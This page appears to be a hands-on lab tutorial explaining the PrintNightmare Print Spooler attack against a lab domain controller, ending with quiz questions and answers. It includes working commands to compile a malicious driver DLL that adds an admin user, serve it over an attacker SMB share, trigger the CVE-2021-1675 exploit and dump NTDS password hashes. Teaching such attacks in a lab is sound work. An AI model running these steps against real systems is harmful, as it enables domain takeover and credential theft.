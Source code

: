 #PrintNightmare Attack

In this attack, the Print Spooler service will be abused. This service used to allow users to upload their own printer drivers to enable easy network printer sharing. A printer driver is a software component that basically acts as a translator between computers and printers. These drivers could be uploaded by users to machines running the Print Spooler service, and the dangerous part is that the Print Spooler service runs as SYSTEM. Meaning that printer drivers are run as SYSTEM as well.

An attacker could then upload mallicious code disguised as a printer driver to a machine running the vulnerable service. 

The Print Spooler service runs on DCs by default. An attacker can then potentially upload a printer driver that creates a new user and adds this user to the local administrators group. And as simple as that, the attacker would then have administrative privileges on the DC itself.

To execute this attack, we can first assess if CAPTAIN provides the Print Spooler service:
```
crackmapexec smb 192.168.122.10 -M spooler
```

Lucky for us, the CAPTAIN DC does provide the vulnerable service. Now, create a file named 'pnightmare.c' inside the 'pnightmare' directory, with the contents seen in [pnightmare.c](../single-domain-attacks/pnightmare.c). This code will create a user called 'printersplitter' with password 'Passw0rd' and add the user to the local administrators group.

Now, compile the code, start an SMB share so that the DC can retrieve the driver, and finally trigger the DC to retrieve the driver:
```
x86_64-w64-mingw32-gcc -shared -o pnightmare.dll pnightmare.c
sudo -E python3 /home/ubuntu/.local/bin/smbserver.py -smb2support ATTACKERSHARE . & 
#press ENTER
python3 CVE-2021-1675.py polaris.local/skyler.white:'Password123'@captain.polaris.local '\\192.168.122.2\ATTACKERSHARE\pnightmare.dll'
```

Now the attacker holds new administrative credentials, and can use them to dump domain user's hashes, for example, compromising every single user account:
```
crackmapexec smb captain.polaris.local -u printersplitter -p 'Passw0rd' --ntds
```

!!! question
    Which Windows service is being targetted by the PrintNightmare attack?
??? success "Answer"
    The Print Spooler service, namely, the fact that it allowed users to upload arbitrary printer drivers.
!!! question
    Under which security context can attacker code be executed through this attack?
??? success "Answer"
    Through the PrintNightmare attack, an attacker can execute code under the SYSTEM security context.
!!! question
    Which method from the Spooler service does the attacker use to upload this arbitrary driver to the DC?
??? success "Answer"
    RpcAddPrinterDriverEx is abused to make the DC retrieve and install a malicious driver DLL from the attacker’s SMB share.
